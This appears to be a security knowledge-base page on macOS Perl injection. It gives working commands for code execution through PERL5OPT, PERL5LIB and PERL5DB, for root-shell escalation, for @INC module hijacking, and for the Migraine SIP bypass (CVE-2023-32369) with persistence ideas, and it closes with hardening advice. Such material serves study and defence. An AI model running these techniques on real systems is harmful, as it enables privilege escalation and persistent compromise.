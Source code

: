 # macOS Perl Applications Injection

## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable **`PERL5OPT`** it's possible to make **Perl** execute arbitrary commands when the interpreter starts (even **before** the first line of the target script is parsed).  
For example, create this script:

```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```

And then use the env variables so the module is located and loaded automatically:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```

### Other interesting environment variables

* **`PERL5DB`** – when the interpreter is started with the **`-d`** (debugger) flag, the content of `PERL5DB` is executed as Perl code *inside* the debugger context.  
  If you can influence both the environment **and** the command-line flags of a privileged Perl process you can do something like:
  
  ```bash
  export PERL5DB='system("/bin/zsh")'
  sudo perl -d /usr/bin/some_admin_script.pl   # will drop a shell before executing the script
  ```

* **`PERL5SHELL`** – on Windows this variable controls which shell executable Perl will use when it needs to spawn a shell. It is mentioned here only for completeness, as it is not relevant on macOS.

Although `PERL5DB` requires the `-d` switch, it is common to find maintenance or installer scripts that are executed as *root* with this flag enabled for verbose troubleshooting, making the variable a valid escalation vector.

## Via dependencies (@INC abuse)

It is possible to list the include path that Perl will search (**`@INC`**) running:

```bash
perl -e 'print join("\n", @INC)'
```

Typical output on macOS 13/14 looks like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders don’t even exist, however **`/Library/Perl/5.30`** does exist, is *not* protected by SIP and is *before* the SIP-protected folders. Therefore, if you can write as *root* you may drop a malicious module (e.g. `File/Basename.pm`) that will be *preferentially* loaded by any privileged script importing that module.

> [!WARNING]
> You still need **root** to write inside `/Library/Perl` and macOS will show a **TCC** prompt asking for *Full Disk Access* for the process performing the write operation.

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` containing attacker-controlled code.

## SIP bypass via Migration Assistant (CVE-2023-32369 “Migraine”)

In May 2023 Microsoft disclosed **CVE-2023-32369**, nick-named **Migraine**, a post-exploitation technique that allows a *root* attacker to completely **bypass System Integrity Protection (SIP)**.  
The vulnerable component is **`systemmigrationd`**, a daemon entitled with **`com.apple.rootless.install.heritable`**. Any child process spawned by this daemon inherits the entitlement and therefore runs **outside** SIP restrictions.

Among the children identified by the researchers is the Apple-signed interpreter:

```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```

Because Perl honors `PERL5OPT` (and Bash honors `BASH_ENV`), poisoning the daemon’s *environment* is enough to gain arbitrary execution in a SIP-less context:

```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```

When `migrateLocalKDC` runs, `/usr/bin/perl` starts with the malicious `PERL5OPT` and executes `/private/tmp/migraine.sh` *before SIP is re-enabled*. From that script you can, for instance, copy a payload inside **`/System/Library/LaunchDaemons`** or assign the `com.apple.rootless` extended attribute to make a file **undeletable**.

Apple fixed the issue in macOS **Ventura 13.4**, **Monterey 12.6.6** and **Big Sur 11.7.7**, but older or un-patched systems remain exploitable.

## Hardening recommendations

1. **Clear dangerous variables** – privileged launchdaemons or cron jobs should start with a pristine environment (`launchctl unsetenv PERL5OPT`, `env -i`, etc.).
2. **Avoid running interpreters as root** unless strictly necessary. Use compiled binaries or drop privileges early.
3. **Vendor scripts with `-T` (taint mode)** so that Perl ignores `PERL5OPT` and other unsafe switches when taint checking is enabled.
4. **Keep macOS up to date** – “Migraine” is fully patched in current releases.

## References

- Microsoft Security Blog – “New macOS vulnerability, Migraine, could bypass System Integrity Protection” (CVE-2023-32369), May 30 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) research”, May 2025.

